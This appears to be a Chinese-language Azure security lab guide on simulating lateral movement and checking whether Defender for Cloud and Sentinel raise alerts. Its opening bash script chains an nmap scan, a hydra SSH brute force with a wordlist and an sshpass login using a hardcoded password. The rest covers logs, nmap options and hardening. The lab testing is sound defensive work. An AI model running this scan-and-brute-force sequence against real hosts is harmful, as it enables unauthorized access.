 # 🛡️ Azure 攻击模拟与检测知识库

## 📁 目录

- [一、攻击模拟实验：模拟横向移动](#一攻击模拟实验模拟横向移动)
- [二、日志验证清单](#二日志验证清单)
- [三、nmap 工具详解与 Defender 检测机制](#三nmap-工具详解与-defender-检测机制)

---

## 一、攻击模拟实验：模拟横向移动

### 🎯 实验目的

模拟一台受控 Azure VM 向另一台内网 VM 执行横向扫描与凭据尝试，观察 Defender for Cloud 能否检测并告警。

### 🧪 环境需求

- Azure VNet 内的两台 Linux VM（例如 Ubuntu 20.04）：
  - VM-A（攻击机，已安装 `nmap`, `hydra`, `netcat`）
  - VM-B（目标机，启用 SSH 服务）

- Defender for Cloud 启用 + Plan 2 安全计划

---

### 🛠️ 攻击模拟脚本（在 VM-A 上执行）

```bash
#!/bin/bash

echo "== 🔍 Step 1: 扫描 VM-B 是否开放端口 22 =="
nmap -Pn -p 22 <VM-B-Private-IP> -oN nmap_scan.log

echo "== 💥 Step 2: 使用 Hydra 模拟暴力破解 SSH =="
hydra -t 4 -l testuser -P /usr/share/wordlists/rockyou.txt ssh://<VM-B-Private-IP> -o hydra_results.txt

echo "== 🔗 Step 3: 模拟横向移动（尝试登录） =="
sshpass -p 'password123' ssh -o StrictHostKeyChecking=no testuser@<VM-B-Private-IP> 'uname -a'

echo "== ✅ 完成模拟横向行为 =="

```
⚠️ 注意：需自行替换 <VM-B-Private-IP> 和用户名/密码。


## 二、日志验证清单

| 类别     | 验证项目             | Azure 来源                        | 查询或位置                       |
| ------ | ---------------- | ------------------------------- | --------------------------- |
| NSG 日志 | 端口 22 被连接        | NSG Flow Logs                   | Network Watcher > Flow Logs |
| 安全告警   | SSH 暴力破解尝试       | Defender for Cloud              | Security alerts             |
| 安全告警   | 可疑横向移动           | Defender for Cloud              | Security alerts             |
| 行为分析   | 同一 IP 多端口访问      | Microsoft Sentinel (KQL)        | `AzureNetworkAnalytics_CL`  |
| 虚机日志   | 登录记录             | Linux 审计日志（/var/log/auth.log）   | 可使用 Azure Monitor 收集        |
| EDR 行为 | hydra / nmap 被调用 | Microsoft Defender for Endpoint | Timeline / Advanced Hunting |

## 三、nmap 工具详解与 Defender 检测机制
### 🔍 什么是 nmap？
nmap（Network Mapper）是一个开源的网络扫描和安全审核工具。它被广泛用于：
- 探测在线主机（Host Discovery）
- 识别开放端口（Port Scanning）
- 检测操作系统类型（OS Detection）
- 枚举服务与版本（Service Version Detection）
- 安全漏洞测试（通过 NSE 脚本）

### ⚙️ 工作原理
通过构造并发送各种网络数据包（TCP、UDP、ICMP 等）到目标系统，然后根据返回包判断目标主机是否存在、端口是否开放、服务类型等。

### 常见扫描方式
| 类型                 | 描述            |
| ------------------ | ------------- |
| Ping 扫描（ICMP Echo） | 判断主机是否存活      |
| TCP Connect 扫描     | 使用完整 TCP 三次握手 |
| SYN 扫描（Stealth）    | 半开扫描，更隐蔽      |
| UDP 扫描             | 探测 UDP 服务     |
| 服务版本探测（-sV）        | 获取服务 banner   |
| 操作系统识别（-O）         | 基于 TCP/IP 栈特征 |
| NSE 脚本（--script）   | 执行安全脚本，如漏洞检测  |

### 🧪 常用命令参数
| 命令                           | 功能说明                  |
| ---------------------------- | --------------------- |
| `nmap <ip>`                  | 默认 TCP 端口（0-1000）扫描   |
| `nmap -Pn <ip>`              | 不进行 ping 检测           |
| `nmap -sS -p 22,80,443 <ip>` | SYN 扫描特定端口            |
| `nmap -sV <ip>`              | 探测服务版本                |
| `nmap -O <ip>`               | 探测操作系统                |
| `nmap -A <ip>`               | 高级信息收集（包含 -sV -O -sC） |
| `nmap --script=vuln <ip>`    | 检测已知漏洞                |
| `nmap -T4 <ip>`              | 加快扫描速度                |

### 🔍 Defender for Cloud 如何检测 nmap 扫描？
#### 📊 1. NSG Flow Logs + 威胁智能
- Azure 收集五元组流量（源/目标 IP、端口、协议）
- 分析短时间大量端口连接行为（特征模式）
- 告警：如 "Port scanning from external IP"

#### 🧠 2. Defender for Endpoint（如部署）
- 监控系统调用（如 nmap, hydra 命令执行）
- 捕捉进程行为（恶意脚本或工具）
- 报告到 Defender 中的 Timeline / Incident

#### 📉 3. Microsoft Sentinel 检测方式（可选）
- 查询异常端口访问

```kql
AzureNetworkAnalytics_CL
| where DstPortNumber_s in ("22", "3389", "445")
| summarize count() by SrcIpAddr_s, DstIpAddr_s, DstPortNumber_s
```

### ✅ 防护建议
| 场景      | 建议                                   |
| ------- | ------------------------------------ |
| 暴露公网 IP | NSG 限制端口、启用 Defender for Cloud       |
| 内网扫描    | 安装 MDE 代理，使用 Sentinel 警报             |
| 服务探测    | 使用 Bastion 或 Azure Firewall 隐藏目标主机   |
| 非授权登录   | 启用 MFA，限制 SSH 用户，日志上传到 Log Analytics |
